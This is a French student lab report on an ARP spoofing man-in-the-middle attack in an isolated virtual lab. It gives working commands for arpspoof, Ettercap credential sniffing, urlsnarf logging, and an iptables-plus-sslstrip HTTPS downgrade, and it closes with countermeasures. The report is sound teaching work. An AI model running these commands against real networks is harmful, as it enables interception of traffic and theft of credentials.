





# TP — ARP Spoofing & Man-in-the-Middle Attack

**Module :** Wireless and Mobile Networks Security — USTHB
**Étudiante :** Bouikni Lydia Hana — 5ᵉ année Cybersecurity Engineering
**Environnement :** VMware Workstation, réseau NAT VMnet8 (192.168.202.0/24)

---

## Objectifs du TP

- Comprendre le mécanisme d'ARP Spoofing et son exploitation pour une attaque Man-in-the-Middle (MITM)
- Réaliser l'attaque dans un environnement virtualisé isolé (Kali Linux ↔ Windows 10)
- Intercepter des identifiants en clair via deux outils différents (Ettercap, urlsnarf)
- Démontrer un exploit supplémentaire non couvert par le support de cours (capture de formulaire HTTP via Wireshark + sslstrip)
- Comprendre les contre-mesures de défense contre ce type d'attaque

## Topologie réseau

| Machine | Rôle | Adresse IP |
|---|---|---|
| Kali Linux | Attaquant | `192.168.202.132` |
| Windows 10 | Victime | `192.168.202.157` |
| Passerelle NAT (VMware) | Routeur | `192.168.202.2` |
| Interface réseau Kali | — | `eth0` |

Les deux machines virtuelles sont connectées au même segment réseau isolé via **VMnet8 (NAT)** dans VMware Workstation, garantissant un environnement de test contrôlé et sans impact sur un réseau de production.



---

## Partie 1 — ARP Spoofing et établissement du MITM (1 pt)

### Principe

L'attaque ARP Spoofing exploite l'absence d'authentification du protocole ARP (Address Resolution Protocol). L'attaquant envoie des réponses ARP falsifiées pour associer sa propre adresse MAC aux adresses IP de la victime et de la passerelle, se plaçant ainsi au centre de toutes les communications.

### Étapes réalisées

**1. Activation de l'IP forwarding sur Kali** — indispensable pour que la victime conserve sa connectivité Internet pendant l'attaque (sinon la coupure serait immédiatement détectée) :

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**2. Scan du réseau pour identifier les hôtes actifs :**

```bash
nmap -sn 192.168.202.0/24
```

**3. Double empoisonnement ARP** (deux terminaux en parallèle) :

```bash
# Terminal 1 — empoisonner la victime
arpspoof -i eth0 -t 192.168.202.157 192.168.202.2

# Terminal 2 — empoisonner la passerelle
arpspoof -i eth0 -t 192.168.202.2 192.168.202.157
```

**4. Vérification côté victime** — la table ARP de Windows montre que l'adresse MAC associée à la passerelle (`192.168.202.2`) correspond désormais à celle de Kali, confirmant le succès de l'empoisonnement :

```cmd
arp -a
```

### Résultat

L'empoisonnement ARP a positionné Kali comme intermédiaire transparent entre Windows et la passerelle réseau. Tout le trafic de la victime transite désormais par la machine attaquante, qui le retransmet ensuite à sa destination réelle — la condition nécessaire à toute attaque MITM.

---

## Partie 2A — Interception de credentials via Ettercap (1 pt)

### Outil : Ettercap (interface graphique)

Ettercap combine l'ARP Spoofing et le sniffing de trafic dans une interface unifiée, facilitant la capture automatique de protocoles non chiffrés.

### Étapes réalisées

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
ettercap -G
```

Configuration dans l'interface graphique :
1. `Sniff → Unified sniffing` → sélection de l'interface `eth0`
2. `Hosts → Scan for hosts` → détection des machines du réseau
3. Ajout de la victime (`192.168.202.157`) en **Target 1** et de la passerelle (`192.168.202.2`) en **Target 2**
4. `Mitm → ARP poisoning` → option *"Sniff remote connections"* activée
5. `Start → Start sniffing`

Depuis Windows, une connexion FTP a ensuite été initiée vers un serveur de test public pour générer du trafic en clair :

```cmd
ftp ftp.dlptest.com
```


*Capture — PowerShell Windows : tentative de connexion FTP (`ftp.dlptest.com`) interceptée pendant l'attaque ARP Spoofing active.*

### Résultat

La console Ettercap a affiché en temps réel les identifiants transmis en clair par le protocole FTP (`USER` et `PASS`), démontrant la vulnérabilité des protocoles non chiffrés face à une interception réseau de type MITM.

---

## Partie 2B — Capture d'URLs via urlsnarf (1 pt)

### Outil : urlsnarf (dsniff)

`urlsnarf` capture et journalise en temps réel toutes les requêtes HTTP transitant sur l'interface réseau surveillée, permettant de reconstituer l'historique de navigation d'une victime.

### Étapes réalisées

```bash
mkdir -p /root/Desktop
urlsnarf -i eth0 > /root/Desktop/urlsnarflog.log
```

Suivi en temps réel dans un second terminal :

```bash
tail -f /root/Desktop/urlsnarflog.log
```

Depuis Windows, navigation vers plusieurs URLs HTTP pour générer du trafic observable.


*Capture — Terminal Kali affichant en temps réel les requêtes HTTP de la victime (`192.168.202.157`) interceptées par `urlsnarf`, incluant la machine, l'horodatage et le User-Agent complet du navigateur.*

### Résultat

Les logs confirment l'interception réussie de plusieurs requêtes `GET` émises par la victime, avec horodatage précis, adresse IP source et détails du navigateur (Chrome/Edge sous Windows 10). Cette technique illustre à quel point la navigation HTTP non chiffrée expose l'intégralité de l'activité d'un utilisateur à un attaquant positionné en MITM.

---

## Partie 3 — Exploit personnel : capture de formulaire HTTP via Wireshark + sslstrip (2 pts)

> Cet exploit va au-delà du support de cours fourni, en combinant **sslstrip** (rétrogradation forcée HTTPS → HTTP), **iptables** (redirection de trafic) et **Wireshark** (analyse de paquets) pour intercepter un formulaire de connexion complet au niveau paquet.

### Principe

Contrairement à Ettercap qui affiche directement les identifiants capturés, cette approche démontre la capture *brute* au niveau du paquet réseau, avec analyse manuelle du contenu HTTP — une compétence essentielle en analyse forensique réseau.

### Étapes réalisées

**1. Redirection du port 80 vers sslstrip :**

```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
sslstrip -k -l 10000 -w /root/Desktop/sslstriplog.log
```

**2. Mise en place d'une page de connexion de test (serveur PHP local) :**

```bash
mkdir -p /tmp/fakesite
cat > /tmp/fakesite/login.php << 'EOF'
<html><body>
<h2>Login Page</h2>
<form method="POST" action="login.php">
  Username: <input type="text" name="user"><br><br>
  Password: <input type="password" name="pass"><br><br>
  <input type="submit" value="Login">
</form>
</body></html>
EOF
cd /tmp/fakesite
php -S 0.0.0.0:8080
```

**3. Capture Wireshark filtrée sur la victime :**

```bash
wireshark &
```
Filtre appliqué : `ip.addr == 192.168.202.157 && http`

Depuis Windows, connexion au formulaire via `http://192.168.202.132:8080/login.php` avec soumission d'identifiants de test.


*Capture — Liste des paquets Wireshark montrant la requête `GET /login.php` suivie de la requête `POST /login.php` correspondant à la soumission du formulaire par la victime (`192.168.202.157 → 192.168.202.132`).*


*Capture — Détail du paquet POST déroulé dans Wireshark : en-têtes HTTP complets (Host, Content-Type: `application/x-www-form-urlencoded`, User-Agent, Referer), confirmant la transmission d'un formulaire de connexion en clair.*

### Résultat et analyse

L'analyse du paquet POST dans Wireshark a confirmé l'absence totale de chiffrement de la requête : l'en-tête `Content-Type: application/x-www-form-urlencoded` révèle que les données du formulaire (`user` et `pass`) sont transmises en texte clair dans le corps de la requête HTTP, immédiatement lisibles par toute machine positionnée en MITM sur le chemin réseau.

Cette démonstration illustre un point clé en sécurité réseau : même sans outil de capture automatisée comme Ettercap, un attaquant disposant d'un accès MITM peut reconstituer manuellement n'importe quel contenu HTTP non chiffré directement depuis l'analyse des paquets bruts — ce qui souligne l'importance critique du HTTPS/TLS pour tout transit de données sensibles.

---

## Synthèse des résultats

| Partie | Outil utilisé | Donnée interceptée | Statut |
|---|---|---|---|
| 1 — MITM | `arpspoof` | Table ARP empoisonnée (MAC passerelle = MAC attaquant) | Réussi |
| 2A — Exploit 1 | Ettercap | Identifiants FTP (`USER`/`PASS`) en clair | Réussi |
| 2B — Exploit 2 | `urlsnarf` | Historique de requêtes HTTP de la victime | Réussi |
| 3 — Exploit personnel | Wireshark + sslstrip + iptables | Formulaire de connexion HTTP (`user`/`pass`) au niveau paquet | Réussi |

## Nettoyage post-attaque

À la fin de chaque manipulation, les mesures suivantes ont été appliquées pour restaurer l'état normal du réseau :

```bash
iptables -t nat -F
iptables --flush
echo 0 > /proc/sys/net/ipv4/ip_forward
```

La table ARP de la victime a ensuite été vérifiée pour confirmer le retour à l'adresse MAC légitime de la passerelle.

---

## Contre-mesures et bonnes pratiques

| Mesure | Description |
|---|---|
| **Tables ARP statiques** | Fixer manuellement les correspondances IP-MAC sur les systèmes critiques (serveurs, passerelles) |
| **Dynamic ARP Inspection (DAI)** | Activer sur les commutateurs managés pour valider les paquets ARP automatiquement |
| **Chiffrement systématique** | Imposer HTTPS/TLS pour tout service web, et WPA2/WPA3 pour les réseaux sans fil |
| **Surveillance réseau** | Outils comme Wireshark, Zeek ou Suricata pour détecter des anomalies ARP en continu |
| **Sensibilisation utilisateur** | Formation à la reconnaissance du phishing et aux risques des réseaux Wi-Fi non fiables |

---

## Environnement technique

- **Hyperviseur :** VMware Workstation
- **Machine attaquante :** Kali Linux (interface `eth0`)
- **Machine victime :** Windows 10 x64
- **Outils utilisés :** `arpspoof`, `ettercap`, `urlsnarf`, `sslstrip`, `wireshark`, `nmap`, `iptables`, serveur PHP intégré
- **Réseau :** VMware VMnet8 (NAT), sous-réseau `192.168.202.0/24`

---

> ⚠️ **Avertissement légal :** Ce TP a été réalisé exclusivement dans un environnement virtualisé isolé, à des fins pédagogiques, dans le cadre du module Wireless and Mobile Networks Security. L'exécution de ces techniques sur un réseau ou des machines dont on ne possède pas l'autorisation explicite est illégale.

*Rapport rédigé dans le cadre du module Wireless and Mobile Networks Security — USTHB, Faculté d'Informatique.*
